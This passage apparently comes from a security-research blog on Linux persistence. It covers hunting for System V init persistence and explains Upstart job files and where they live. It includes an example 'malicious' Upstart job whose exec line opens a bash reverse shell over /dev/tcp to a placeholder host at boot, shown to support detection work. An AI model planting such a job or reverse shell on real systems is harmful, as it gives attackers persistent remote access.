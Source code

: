 

#### Hunting for T1037 - System V init

Other than relying on detections, it is important to incorporate threat hunting into your workflow, especially for persistence mechanisms like these, where events can potentially be missed due to timing. This blog will solely list the available hunts for each persistence mechanism; however, more details regarding this topic are outlined at the end of the first section in [the previous article on persistence](https://www.elastic.co/security-labs/primer-on-persistence-mechanisms). Additionally, descriptions and references can be found in our [Detection Rules repository](https://github.com/elastic/detection-rules), specifically in the [Linux hunting subdirectory](https://github.com/elastic/detection-rules/tree/main/hunting).

We can hunt for System V Init persistence through [ES|QL](https://www.elastic.co/guide/en/elasticsearch/reference/current/esql.html) and [OSQuery](https://www.elastic.co/guide/en/kibana/current/osquery.html), focusing on unusual process executions and file creations. The [Persistence via System V Init](https://github.com/elastic/detection-rules/blob/main/hunting/linux/queries/persistence_via_sysv_init.toml) rule contains several ES|QL and OSQuery queries that can help hunt for these types of persistence.

### T1037 - boot or logon initialization scripts: Upstart

[Upstart](https://linux.die.net/man/7/upstart) was introduced as an alternative init system designed to improve boot performance and manage system services more dynamically than traditional SysV init. While it has been largely supplanted by systemd in many Linux distributions, Upstart is still used in some older releases and legacy systems.

The core of Upstart's configuration resides in the `/etc/init/` directory, where job configuration files define how services are started, stopped, and managed. Each job file specifies dependencies, start conditions, and actions to be taken upon start, stop, and other events.

In Upstart, run levels are replaced with events and tasks, which define the sequence and conditions under which jobs are executed. Upstart introduces a more event-driven model, allowing services to start based on various system events rather than predefined run levels.

Upstart can run system-wide or in user-session mode. While system-wide configurations are placed in the `/etc/init/` directory, user-session mode configurations are located in:

* `~/.config/upstart/`
* `~/.init/`
* `/etc/xdg/upstart/`
* `/usr/share/upstart/sessions/`

An example of an Upstart job file can look like this:

```
description "Malicious Upstart Job"
author "Ruben Groenewoud"

start on runlevel [2345]
stop on shutdown

exec nohup setsid bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'
```

The `malicious-upstart-job.conf` file defines a job that starts on run levels 2, 3, 4, and 5 (general Linux access and networking), and stops on run levels 0, 1, and 6 (shutdown/reboot). The `exec` line executes the malicious payload to establish a reverse shell connection when the system boots up.
